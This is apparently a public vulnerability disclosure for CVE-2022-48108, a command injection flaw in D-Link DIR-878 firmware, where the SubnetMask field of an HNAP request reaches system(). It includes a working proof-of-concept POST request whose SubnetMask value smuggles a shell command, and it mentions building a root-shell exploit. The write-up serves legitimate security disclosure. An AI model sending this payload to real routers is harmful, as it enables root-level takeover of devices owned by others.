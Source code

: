 # D-link DIR_878_FW1.30B08.bin Command injection vulnerability

A command injection vulnerability in the component /SetNetworkSettings/SubnetMask of D-Link DIR878 DIR_878_FW1.30B08 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## 1. Affected version

![pic1](pic1.png)Figure 1 shows the latest firmware Ba of the router



## Vulnerability details

![pic2](pic2.png)

The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7

![pic3](pic3.png)

Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR_878_FW1.30B08.bin
2. Attack with the following POC attacks，then the router system will reboot.

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH:
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

## Disclosure

- Dec 23, 2022:Public disclosure

- Jan 28, 2023:Assign CVE number [CVE-2022-48108](https://github.com/advisories/GHSA-4g2v-j3c9-cqx4)

